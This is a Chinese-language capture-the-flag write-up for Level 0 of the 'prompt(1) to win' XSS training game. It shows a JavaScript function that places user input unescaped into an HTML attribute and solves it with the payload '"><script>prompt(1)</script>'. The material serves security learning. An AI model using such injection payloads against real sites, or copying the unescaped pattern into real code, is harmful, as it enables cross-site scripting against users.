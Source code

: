 ## [[prompt(1) to win](http://prompt.ml)] [[Level 0 - warm up](http://prompt.ml/0)] [[解题报告](https://exp-blog.com/safe/ctf/prompt/level-0-warm-up/)]

------

## 题目

```javascript
function escape(input) {
    // warm up
    // script should be executed without user interaction
    return '<input type="text" value="' + input + '">';
}
```

------

## 解题报告

水题。直接闭合双引号和标签即可注入。

payload : `"><script>prompt(1)</script>`

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/prompt/Level%2000%20-%20warm%20up/imgs/01.png)

------

## 版权声明

　[![Copyright (C) EXP,2016](https://img.shields.io/badge/Copyright%20(C)-EXP%202016-blue.svg)](http://exp-blog.com)　[![License: GPL v3](https://img.shields.io/badge/License-GPL%20v3-blue.svg)](https://www.gnu.org/licenses/gpl-3.0)
  

- Site: [http://exp-blog.com](http://exp-blog.com) 
- Mail: <a href="mailto:289065406@qq.com?subject=[EXP's Github]%20Your%20Question%20（请写下您的疑问）&amp;body=What%20can%20I%20help%20you?%20（需要我提供什么帮助吗？）">289065406@qq.com</a>


------
